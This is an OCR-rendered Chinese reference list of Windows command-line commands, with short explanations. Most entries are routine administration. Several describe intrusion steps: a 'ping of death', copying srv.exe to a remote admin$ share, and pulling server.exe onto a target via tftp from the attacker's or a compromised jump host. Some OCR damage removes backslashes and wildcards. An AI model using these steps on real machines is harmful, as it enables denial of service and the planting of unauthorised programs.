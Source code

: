 ping -t -l 65550 ip 死亡之 ping(发送大于 64K 的文件并一直 ping 就成了死亡之 ping)

ipconfig (winipcfg) 用于 windows NT 及 XP(windows 95 98)查看本地 ip 地址，ipconfig 可用参数"/all"显示全部配置信息

tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)

kill -F 进程名 加-F 参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)

del -F 文件名 加-F 参数后就可删除只读文件，/AR、/AH、/AS、/AA 分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A 表示删除除只读、隐藏、系统、存档以外的文件。例如"DEL/AR _._"表示删除当前目录下所有只读文件，"DEL/A-S _._"表示删除当前目录下除系统文件以外的所有文件

del /S /Q 目录 或用:rmdir /s /Q 目录 /S 删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。(二个命令作用相同)

move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件，用参数/y 将取消确认移动目录存在相同文件的提示就直接覆盖

fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到 3st.txt 文件中，"> "和"> >" 是重定向命令

at id 号 开启已注册的某个计划任务

at /delete 停止所有计划任务，用参数/yes 则不需要确认就直接停止

at id 号 /delete 停止某个已注册的计划任务

at 查看所有的计划任务

at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username @host 查看最近有哪些用户登陆

telnet ip 端口 远和登陆服务器，默认端口为 23

open ip 连接到 IP(属 telnet 登陆后的命令)

telnet 在本机上直接键入 telnet 将进入本机的 telnet

copy 路径文件名 1 　路径文件名 2 /y 复制文件 1 到指定的目录为文件 2，用参数/y 就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地 c:srv.exe 到对方的 admin 下

copy 1st.jpg/b+2st.txt/a 3st.jpg 将 2st.txt 的内容藏身到 1st.jpg 中生成 3st.jpg 新的文件，注:2st.txt 文件头要空三排，参数:/b 指二进制文件，/a 指 ASCLL 格式文件

copy ipadmin$svv.exe c: 或:copyipadmin$_._ 复制对方 admini$共享下的 srv.exe 文件(所有文件)至本地 C:

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y 将不提示覆盖相同文件

用参数/e 才可连目录下的子目录一起复制到目标地址下。

tftp -i 自己 IP(用肉机作跳板时这用肉机 IP) get server.exec:server.exe 登陆后，将"IP"的 server.exe 下载到目标主机 c:server.exe 参数:-i 指以二进制模式传送，如传送 exe 文件时用，如不加-i 则以 ASCII 模式(传送文本文件模式)进行传送

tftp -i 对方 IP 　 put c:server.exe 登陆后，上传本地 c:server.exe 至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为 21。bin 指用二进制方式传送(可执行文件进)；默认为 ASCII 格式传送(文本文件时)

route print 显示出 IP 路由，将主要显示网络地址 Network addres，子网掩码 Netmask，网关地址 Gateway addres，接口地址 Interface

arp 查看和处理 ARP 缓存，ARP 是名字解析的意思，负责把一个 IP 解析成一个物理性的 MAC 地址。arp -a 将显示出全部信息

start 程序名或命令 /max 或/min 新开一个新窗口并最大化(最小化)运行某程序或命令

mem 查看 cpu 使用情况

attrib 文件名(目录名) 查看某文件(目录)的属性
